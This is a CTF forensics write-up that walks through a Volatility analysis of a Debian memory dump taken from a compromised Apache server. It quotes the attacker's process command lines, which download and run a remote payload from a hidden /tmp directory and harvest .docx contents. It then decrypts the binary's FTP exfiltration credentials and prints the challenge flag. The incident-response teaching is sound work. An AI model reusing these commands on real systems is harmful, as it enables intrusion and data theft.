


# CAMP CTF 2015: APT-incident-response-400

**Category:** Forensics
**Points:** 400
**Solves:** 19
**Description:**

> You are part of an cyber security cyber incident response team and your customer suspects somebody pwned one of their servers.
>
> Examine the memory dump to get the flag.
>
> Download: [dump.vmem](https://drive.google.com/file/d/0B_zt1fDAjfM_Zy1YZFhkQkg4NTg/view?usp=sharing)

> Mirror: [dump.vmem Mega.nz Mirror](https://mega.nz/#!fAlADbbb)
>
> md5(dump.vmem): 019f6d29f6e3f6f0443eea39c2b74a30
>
> sha1(dump.vmem): 4ff1fcf76f6d62fe164b8ed56703dacd5f275673
>
> sha256(dump.vmem): 863cd2ec4fe7cbb7dcc0e4a3f0540ef228853480a16a19c18b5f2e189823423d


## Write-up

This writeup is based on following writeups:

* <https://fischer-its.com/?p=1991>
* <http://dft-labs.eu/~ctf/CCCCAMP_2015/APT-incident-response/writeup.txt> 

We are given a [(VMWare) memory dump](https://www.vmware.com/support/ws55/doc/ws_learning_files_in_a_vm.html) of a yet unkown operating system.

The first thing that we do is find out what type of operating system we are dealing with - This is done using either [`volatility`](https://github.com/volatilityfoundation/volatility)'s [imageinfo](https://code.google.com/p/volatility/wiki/CommandReference#imageinfo) command or searching for operating system unique Strings using `strings` and `grep`.

Since the former did not work in my case, I tried the latter:

```bash
$ strings -a dump.vmem | grep -iEo '(linux|ubuntu|debian|windows)' | sort | uniq -c | sort -n
   1 LInux
   3 WindowS
  17 Ubuntu
  18 DEBIAN
  37 WINDOWS
  38 LINUX
 102 ubuntu
 105 windows
 506 Windows
1573 Linux
3895 Debian
4635 linux
10552 debian
```

Looks like we have a Debian Memory dump!

However, for `volatility` to work, we need [a proper profile](https://code.google.com/p/volatility/wiki/LinuxMemoryForensics#Creating_a_profile), since volatility only comes with Windows Profiles (:/).

This also means finding or creating a profile with the correct Debian version!

We first have to find the correct version using strings, again!

```bash
$ strings -a dump.vmem | grep -iEo '(hamm|slink|potato|woody|sarge|etch|lenny|squeeze|wheezy|jessie|stretch)' | sort | uniq -c | sort -n
   1 STRETCH
   1 Slink
   1 Stretch
   2 HAMM
   3 woody
   4 Lenny
   4 potato
   5 sLink
   6 Hamm
   7 SLINK
   8 sarge
   9 Squeeze
  14 stretch
  16 hamm
  17 etCh
  36 lenny
  66 slink
 512 ETCH
 709 etch
9019 squeeze
```

Looks like Debian 6.0 (`squeeze`)!

Fortunately, we don't have to create a profile on our own, since several profiles are offered in [another volatility foundation github repo](https://github.com/volatilityfoundation/profiles/tree/master/Linux/Debian/x64).

To use this profile and the [linux commands of `volatility`](https://code.google.com/p/volatility/wiki/LinuxMemoryForensics#Using_the_Plugins), we move the correct profile, `Debian608.zip`, to `volatility/volatility/plugins/overlays/linux/Debian608.zip`.

Now we are ready to have a look inside the memory dump.

First, we have a look at the processes that have been running by imitating the `ps` unix command using `volatility`'s `linux_psaux` command:

```bash
$ python2.7 vol.py -f dump.vmem --profile=LinuxDebian608x64 linux_psaux
Pid    Uid    Gid    Arguments                                                       
1      0      0      init [2]                                                        
2      0      0      [kthreadd]                                                      
3      0      0      [migration/0]                                                   
4      0      0      [ksoftirqd/0]                                                   
5      0      0      [watchdog/0]                                                    
6      0      0      [events/0]                                                      
7      0      0      [cpuset]                                                        
8      0      0      [khelper]                                                       
9      0      0      [netns]                                                         
10     0      0      [async/mgr]                                                     
11     0      0      [pm]                                                            
12     0      0      [sync_supers]                                                   
13     0      0      [bdi-default]                                                   
14     0      0      [kintegrityd/0]                                                 
15     0      0      [kblockd/0]                                                     
16     0      0      [kacpid]                                                        
17     0      0      [kacpi_notify]                                                  
18     0      0      [kacpi_hotplug]                                                 
19     0      0      [kseriod]                                                       
21     0      0      [kondemand/0]                                                   
22     0      0      [khungtaskd]                                                    
23     0      0      [kswapd0]                                                       
24     0      0      [ksmd]                                                          
25     0      0      [aio/0]                                                         
26     0      0      [crypto/0]                                                      
194    0      0      [ksuspend_usbd]                                                 
195    0      0      [khubd]                                                         
196    0      0      [ata/0]                                                         
197    0      0      [ata_aux]                                                       
198    0      0      [scsi_eh_0]                                                     
199    0      0      [scsi_eh_1]                                                     
207    0      0      [mpt_poll_0]                                                    
208    0      0      [mpt/0]                                                         
215    0      0      [scsi_eh_2]                                                     
242    0      0      [kjournald]                                                     
310    0      0      udevd --daemon                                                  
465    0      0      udevd --daemon                                                  
468    0      0      udevd --daemon                                                  
518    0      0      [kpsmoused]                                                     
530    0      0      [kgameportd]                                                    
540    0      0      [usbhid_resumer]                                                
760    1      1      /sbin/portmap                                                   
772    102    0      /sbin/rpc.statd                                                 
901    0      0      /usr/sbin/rsyslogd -c4                                          
926    0      0      /usr/sbin/acpid                                                 
950    0      0      /usr/sbin/apache2 -k start                                      
976    0      0      /usr/sbin/atd                                                   
979    33     33     /usr/sbin/apache2 -k start                                      
980    33     33     /usr/sbin/apache2 -k start                                      
981    33     33     /usr/sbin/apache2 -k start                                      
982    33     33     /usr/sbin/apache2 -k start                                      
983    33     33     /usr/sbin/apache2 -k start                                      
1035   0      0      /usr/bin/daemon /etc/init.d/mpt-statusd check_mpt               
1039   0      0      /bin/sh /etc/init.d/mpt-statusd check_mpt                       
1040   0      0      /usr/sbin/cron                                                  
1181   0      0      sleep 600                                                       
1301   101    103    /usr/sbin/exim4 -bd -q30m                                       
1319   0      0      /bin/login --                                                   
1320   0      0      /sbin/getty 38400 tty2                                          
1321   0      0      /sbin/getty 38400 tty3                                          
1322   0      0      /sbin/getty 38400 tty4                                          
1323   0      0      /sbin/getty 38400 tty5                                          
1324   0      0      /sbin/getty 38400 tty6                                          
1325   0      0      [flush-8:0]                                                     
1335   0      0      dhclient -v -pf /var/run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
1366   0      0      /usr/sbin/sshd                                                  
1367   0      0      -bash                                                           
1594   33     33     /usr/sbin/apache2 -k start                                      
4178   0      0      watch -n 0.1 ps -aux | grep curl                                
4299   33     33     /bin/bash /usr/lib/cgi-bin/get_env.cgi                          
4300   33     33     /bin/bash -c mkdir /tmp/.\ ; LD_LIBRARY_PATH="/tmp/.\ /:$LD_LIBRARY_PATH" ; curl -L -o /tmp/.\ /payload.tar.gz "https://www.dropbox.com/s/4ebxsvbjkopzaxa/payload.tar.gz?dl=1" ; tar xvf /tmp/.\ /payload.tar.gz -C /tmp/.\  ; /tmp/.\ /payload.run 6FYTQ0TN/NX2UCt3AcjL/sXX3ohzcsmFRCDF6aSNGg== qhYMABqJ/4ShTis= /VVOW1jaow== 2GBzfhqKjoCtV344U5DHpIaO3osma5nNU3yRquzcV56Ve5+QVJ/wqtsiLWo9qTP28FLqF4SQGVUfjenPwYKI1bnB0SxOack= ; rm -rf /tmp/.\  
5521   33     33     apache2                                                                                                                                                                                        
5522   33     33     sh -c bash -c 'IFS=$(echo -en "\n\b") ; for i in `find / -iname "*.docx"`; do unzip -p "$i" word/document.xml | sed -e "s/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g" | grep "sw-mor-dc01-blmhpi153-2.seat.it" >> "/tmp/tmp_tIvczi"; done; '
5523   33     33     bash -c IFS=$(echo -en "\n\b") ; for i in `find / -iname "*.docx"`; do unzip -p "$i" word/document.xml | sed -e "s/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g" | grep "sw-mor-dc01-blmhpi153-2.seat.it" >> "/tmp/tmp_tIvczi"; done; 
5574   33     33     bash -c IFS=$(echo -en "\n\b") ; for i in `find / -iname "*.docx"`; do unzip -p "$i" word/document.xml | sed -e "s/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g" | grep "sw-mor-dc01-blmhpi153-2.seat.it" >> "/tmp/tmp_tIvczi"; done; 
5575   33     33     bash -c IFS=$(echo -en "\n\b") ; for i in `find / -iname "*.docx"`; do unzip -p "$i" word/document.xml | sed -e "s/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g" | grep "sw-mor-dc01-blmhpi153-2.seat.it" >> "/tmp/tmp_tIvczi"; done; 
5576   33     33     bash -c IFS=$(echo -en "\n\b") ; for i in `find / -iname "*.docx"`; do unzip -p "$i" word/document.xml | sed -e "s/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g" | grep "sw-mor-dc01-blmhpi153-2.seat.it" >> "/tmp/tmp_tIvczi"; done;
```

We can see some interesting processes, by process ID:

* `950`, `979`-`983`, `1594`: Presumably original `apache2` processes
* `4300`:
  * Creates a directory `/tmp. ` (mind the space!)
  * Sets the [LD_LIBRARY_PATH](http://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html#AEN80) variable
  * Downloads `payload.tar.gz` from now-deleted <https://www.dropbox.com/s/4ebxsvbjkopzaxa/payload.tar.gz> into `/tmp/. /payload.tar.gz`
  * Extracts the contents of `payload.tar.gz`
  * Runs `payload.run` with parameters `6FYTQ0TN/NX2UCt3AcjL/sXX3ohzcsmFRCDF6aSNGg==`, `qhYMABqJ/4ShTis=`, `/VVOW1jaow==` and `2GBzfhqKjoCtV344U5DHpIaO3osma5nNU3yRquzcV56Ve5+QVJ/wqtsiLWo9qTP28FLqF4SQGVUfjenPwYKI1bnB0SxOack=`
  * Deletes `/tmp. `
* `5521`: Another process called `apache2`
* `5522`, `5523`, `5574`-`5576`: Searches for files ending with `.docx`, extracts a document called `word/document.xml` from each found file to stdout, pipes the content to `sed` to remove all Strings matching the regexes `<[^>]\{1,\}>` and `[^[:print:]]\{1,\}`, `grep`s only for Strings that contain `sw-mor-dc01-blmhpi153-2.seat.it` and finally appends (and saves) the result to `/tmp/tmp_tIvczi`

To have a better view on which process called/created which process, we have a look at the process tree using the `linux_pstree` command:

```bash
$ python2.7 vol.py -f dump.vmem --profile=LinuxDebian608x64 linux_pstree
Name                 Pid             Uid            
init                 1               0              
.udevd               310             0              
..udevd              465             0              
..udevd              468             0              
.portmap             760             1              
.rpc.statd           772             102            
.rsyslogd            901             0              
.rsyslogd            905             0              
.rsyslogd            906             0              
.acpid               926             0              
.apache2             950             0              
..apache2            979             33             
..apache2            980             33             
...get_env.cgi       4299            33             
....bash             4300            33             
.....payload.run     5521            33             
......sh             5522            33             
.......bash          5523            33             
........bash         5574            33             
........bash         5575            33             
........bash         5576            33             
..apache2            981             33             
..apache2            982             33             
..apache2            983             33             
..apache2            1594            33             
.atd                 976             0              
.daemon              1035            0              
..mpt-statusd        1039            0              
...sleep             1181            0              
.cron                1040            0              
.exim4               1301            101            
.login               1319            0              
..bash               1367            0              
...watch             4178            0              
.getty               1320            0              
.getty               1321            0              
.getty               1322            0              
.getty               1323            0              
.getty               1324            0              
.dhclient            1335            0              
.sshd                1366            0              
[...]
```

We see that process with process ID `980` started `get_env.cgi` (Pid `4299`), which then created `4300`.
`4300` then started `payload.run` (`5521`), which then invoked the commands to search for files ending in `.docx`.

To extract `payload.tar.gz` from the memory dump, with the hope that it still is in the memory, we can use `volatility`'s `linux_find_file` command to find the [inode](https://en.wikipedia.org/wiki/Inode) ID of `payload.tar.gz`:

```bash
$ python2.7 vol.py -f dump.vmem --profile=LinuxDebian608x64 linux_find_file -F "/tmp/. /payload.tar.gz"
Inode Number                  Inode File Path
---------------- ------------------ ---------
          434180 0xffff880018fe8a48 /tmp/. /payload.tar.gz
```

Now that we have the Inode ID, `0xffff880018fe8a48`, we can extract the file (also available [here](./payload.tar.gz)):

```bash
$ python2.7 vol.py -f dump.vmem --profile=LinuxDebian608x64 linux_find_file -i 0xffff880018fe8a48 -O payload.tar.gz
$ file payload.tar.gz
payload.tar.gz: gzip compressed data, was "deploy_debian.tar", from Unix, last modified: Wed Aug  5 02:08:05 2015
$ mkdir out
+bash-4.3$ tar xvf payload.tar.gz -C out 
x libcom_err.so.2
x libcrypto.so.0.9.8
x libc.so.6
x libcurl.so.4
x libdl.so.2
x libgcc_s.so.1
x libgcrypt.so.11
x libgnutls.so.26
x libgpg-error.so.0
x libgssapi_krb5.so.2
x libidn.so.11
x libk5crypto.so.3
x libkeyutils.so.1
x libkrb5.so.3
x libkrb5support.so.0
x liblber-2.4.so.2
x libldap_r-2.4.so.2
x libm.so.6
x libpthread.so.0
x libresolv.so.2
x librt.so.1
x libsasl2.so.2
x libssh2.so.1
x libssl.so.0.9.8
x libstdc++.so.6
x libtasn1.so.3
x libz.so.1
x payload.run
$ ls -l out/
total 18104
-rwxr-xr-x  1 xxx  xxx  1437064 Aug  4 18:42 libc.so.6
-rw-r--r--  1 xxx  xxx    12336 Aug  4 18:42 libcom_err.so.2
-rw-r--r--  1 xxx  xxx  1693344 Aug  4 18:42 libcrypto.so.0.9.8
-rw-r--r--  1 xxx  xxx   398024 Aug  4 18:42 libcurl.so.4
-rw-r--r--  1 xxx  xxx    14696 Aug  4 18:42 libdl.so.2
-rw-r--r--  1 xxx  xxx    90504 Aug  4 18:42 libgcc_s.so.1
-rw-r--r--  1 xxx  xxx   489912 Aug  4 18:42 libgcrypt.so.11
-rw-r--r--  1 xxx  xxx   665192 Aug  4 18:42 libgnutls.so.26
-rw-r--r--  1 xxx  xxx    13216 Aug  4 18:42 libgpg-error.so.0
-rw-r--r--  1 xxx  xxx   216824 Aug  4 18:42 libgssapi_krb5.so.2
-rw-r--r--  1 xxx  xxx   206520 Aug  4 18:42 libidn.so.11
-rw-r--r--  1 xxx  xxx   155744 Aug  4 18:42 libk5crypto.so.3
-rw-r--r--  1 xxx  xxx     8528 Aug  4 18:42 libkeyutils.so.1
-rw-r--r--  1 xxx  xxx   818840 Aug  4 18:42 libkrb5.so.3
-rw-r--r--  1 xxx  xxx    32016 Aug  4 18:42 libkrb5support.so.0
-rw-r--r--  1 xxx  xxx    56992 Aug  4 18:42 liblber-2.4.so.2
-rw-r--r--  1 xxx  xxx   297224 Aug  4 18:42 libldap_r-2.4.so.2
-rw-r--r--  1 xxx  xxx   530736 Aug  4 18:42 libm.so.6
-rwxr-xr-x  1 xxx  xxx   131258 Aug  4 18:42 libpthread.so.0
-rw-r--r--  1 xxx  xxx    80712 Aug  4 18:42 libresolv.so.2
-rw-r--r--  1 xxx  xxx    31744 Aug  4 18:42 librt.so.1
-rw-r--r--  1 xxx  xxx   104184 Aug  4 18:42 libsasl2.so.2
-rw-r--r--  1 xxx  xxx   148896 Aug  4 18:42 libssh2.so.1
-rw-r--r--  1 xxx  xxx   356608 Aug  4 18:42 libssl.so.0.9.8
-rw-r--r--  1 xxx  xxx  1043976 Aug  4 18:42 libstdc++.so.6
-rw-r--r--  1 xxx  xxx    65568 Aug  4 18:42 libtasn1.so.3
-rw-r--r--  1 xxx  xxx    93936 Aug  4 18:42 libz.so.1
-rwxr-xr-x  1 xxx  xxx    15624 Aug  5 02:07 payload.run
```

The most recent changed file is an ELF, `payload.run`:

```bash
$ file payload.run
payload.run:         ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, stripped
```

We now have several options to find out more about what this program does:

* Trace library calls by this program using `ltrace` (in a secure environment such as a VM) as suggested [here](https://fischer-its.com/?p=1991): `ltrace -s 1024 -o trace.log ./payload.run 6FYTQ0TN/NX2UCt3AcjL/sXX3ohzcsmFRCDF6aSNGg== qhYMABqJ/4ShTis= /VVOW1jaow== 2GBzfhqKjoCtV344U5DHpIaO3osma5nNU3yRquzcV56Ve5+QVJ/wqtsiLWo9qTP28FLqF4SQGVUfjenPwYKI1bnB0SxOack=`
  * Result: `snprintf("ftp://172.16.54.1/ubuntu_192.168.96.129_1442335527.txt", 10240, "ftp://%s/%s", "172.16.54.1", "ubuntu_192.168.96.129_1442335527.txt") = 54`
* Find out about its inner workings by reversing the program using reverse engineering tools such as [Hopper](http://hopperapp.com/), [IDA](https://www.hex-rays.com/products/ida/support/download.shtml) or [radare2](https://github.com/radare/radare2).
  * Result: [Decompiled code](https://fischer-its.com/?page_id=2014) and [graphical representation](https://fischer-its.com/wp-content/uploads/2015/09/payload_callgraph-New-Page.png)

We see that a FTP server is contacted, `172.16.54.1`, which is secured with unknown credentials.

It seems that the credentials and maybe the FTP server IP or url has been provided as the above mentioned parameters to `payload.run` and are base64 decoded and encrypted using an unknown encryption key.

To find out what these credentials are, we have several options:

* Run the program in a secured environment using `gdb` and set a breakpoint after the decryption as done [here](https://fischer-its.com/?p=1991)
* Guess that the encryption is a simple XOR and is embedded in the `payload.run` binary and find the encryption key by using `xor-strings` and some file analysis.

Since the former is already explained in one of the other writeups, I am just describing the thought process behind the latter approach.

Since we guess that the IP and credentials for the FTP server are provided to `payload.run`, we can try to find the embedded xor key using [xor-strings.py](./xor-strings.py):

```bash
+$ echo -n /VVOW1jaow== | base64 --decode | xxd -p | tr -d '\n' && echo
fd554e5b58daa3
+$ echo -n qhYMABqJ/4ShTis= | base64 --decode | xxd -p | tr -d '\n' && echo
aa160c001a89ff84a14e2b
+$ echo -n 6FYTQ0TN/NX2UCt3AcjL/sXX3ohzcsmFRCDF6aSNGg== | base64 --decode | xxd -p | tr -d '\n' && echo
e856134344cdfcd5f6502b7701c8cbfec5d7de887372c9854420c5e9a48d1a
+$ echo -n 2GBzfhqKjoCtV344U5DHpIaO3osma5nNU3yRquzcV56Ve5+QVJ/wqtsiLWo9qTP28FLqF4SQGVUfjenPwYKI1bnB0SxOack= | base64 --decode | xxd -p | tr -d '\n' && echo
d860737e1a8a8e80ad577e385390c7a4868ede8b266b99cd537c91aaecdc579e957b9f90549ff0aadb222d6a3da933f6f052ea17849019551f8de9cfc18288d5b9c1d12c4e69c9
+$ echo fd554e5b58daa3 >> parameters
+$ echo aa160c001a89ff84a14e2b >> parameters
+$ echo e856134344cdfcd5f6502b7701c8cbfec5d7de887372c9854420c5e9a48d1a >> parameters
+$ echo d860737e1a8a8e80ad577e385390c7a4868ede8b266b99cd537c91aaecdc579e957b9f90549ff0aadb222d6a3da933f6f052ea17849019551f8de9cfc18288d5b9c1d12c4e69c9 >> parameters
+$ cat parameters 
fd554e5b58daa3
aa160c001a89ff84a14e2b
e856134344cdfcd5f6502b7701c8cbfec5d7de887372c9854420c5e9a48d1a
d860737e1a8a8e80ad577e385390c7a4868ede8b266b99cd537c91aaecdc579e957b9f90549ff0aadb222d6a3da933f6f052ea17849019551f8de9cfc18288d5b9c1d12c4e69c9
+$ echo -n '172.16.54.1' | xxd -p
3137322e31362e35342e31
+$ cat parameters | while read par; do python2.7 xor-strings.py 3137322e31362e35342e31 "$par"; done 
003137322ecc63606e6cf492
009b213e2e2bbfd1b195601a
00e856134344cdfcd5f6502b7701c8cbfec5d7de884245fbab7516ebdc90a32b
00d860737e1a8a8e80ad577e385390c7a4868ede8b266b99cd537c91aaecdc579e957b9f90549ff0aadb222d6a3da933f6f052ea17849019551f8de9cff0b5bafb88f7ff197a47f8
```

We find that the hex string `9b213e2e2bbfd1b195601a` is indeed in the binary:



The key in fact is a bit longer:



We extract the key using `xxd`:

```bash
+$ xxd -s11040 -l130 -p payload.run | tr -d '\n' > key
+$ cat key && echo
009b213e2e2bbfd1b195601a5a63a4a696b5beefbd405ffbab3745a49d8ae46efaf71afea562a6c1ccee1014520d915793c331db72e0f67a6379eb8faaf0b7bee58bf3e01c2b58fb4c2b14f32f6d4bf3b0d32f0a51d5ca3a537d078d147c2fcdf93e3bb30ca94a75fa34c597f1a6fb9451d3f32bf88582183e0e1ddb52d955a5c900
```

And decrypt the given parameters using `xor-strings` again:

```bash
+$ cat parameters | while read par; do KEYSIZE=$(echo -n "$par" | wc | awk '{print $3}'); KEYSIZE=$((KEYSIZE)); python2.7 xor-strings.py "$par" "$(head -c$KEYSIZE key)" | xxd -r -p && echo; done
ftpuser
172.16.54.1
sw-mor-dc01-blmhpi153-2.seat.it
CAMP15_187db04a23016f4bfd957f89dbaa5691f529808de3c1edfc6fffe15602210e12
```

We now got the credentials, `ftpuser` and `CAMP15_187db04a23016f4bfd957f89dbaa5691f529808de3c1edfc6fffe15602210e12` as well as the ftp server, `172.16.54.1` as parameters.

Since this writeup is written after the CTF ended, we guess that the flag either is `CAMP15_187db04a23016f4bfd957f89dbaa5691f529808de3c1edfc6fffe15602210e12` or can be downloaded from the ftp server using the credentials.

## Other write-ups and resources

* <https://fischer-its.com/?p=1991>
* <http://dft-labs.eu/~ctf/CCCCAMP_2015/APT-incident-response/writeup.txt> 
